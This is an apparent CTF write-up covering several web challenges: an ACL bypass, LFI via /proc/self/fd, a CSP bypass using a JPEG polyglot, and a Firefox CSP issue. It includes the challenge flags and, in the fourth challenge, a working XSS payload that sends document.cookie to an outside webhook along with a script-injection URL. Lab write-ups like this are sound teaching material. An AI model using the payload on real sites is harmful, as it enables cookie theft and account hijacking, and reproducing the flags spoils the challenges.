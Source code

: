 ## Flag

FLAG{ACL_Bypass_WiTh_SmuGGlinG_For_B0rUt0}

# 3rd challenge: ForbiddEn JutSu

The goal of this challenge is to use `/proc/self/fd/` to get RCE and read the flag file.

## Steps

Once you have RCE , Get the flag file name and read the flag 

This will allow you to read the flag file using this full URL: `http://44.200.237.73/?karma=/seCretJutsuToKillBorUtoKun.txt`

## Flag

FLAG{LfI_ForBiDDen_JuTsu_T0_BeAt_RaS3enGan}

# 4th challenge: Kara Jutsus Access

The goal of this challenge is to use an image polyglot as a script source to bypass csp.

## Steps

1. Use the following image: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg

2. Use the following payload inside the comment field: `*/=xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","/",false);xmlhttp.send();r=xmlhttp.responseText;location.href='https://webhook.site/xxxxxx/?q='+btoa(document.cookie);/*"`

3. Use a hex editing tool (such as Hex Friend on macOS) to modify the image and insert the payload.
4. Upload the modified image.
5. Create a new comment and send it to the admin.
6. Used link to report it to admin to leak cookies : 

```
http://54.82.54.16/index.php?name=test&email=aa&subject=test&message=%3Cscript%20charset=%22ISO-8859-1%22%20src=%22/upload/image_name.jpg%22%3E%3C/script%3E&subcom=test
```

## Flag

FLAG{K4ra_OnCe_Alw4y5_Kara????}

# 5th challenge: Kara Jutsus Platform

The goal of this challenge is to use a firefox issue related to version "104" to bypass the base CSP when it is enforced using a meta tag.
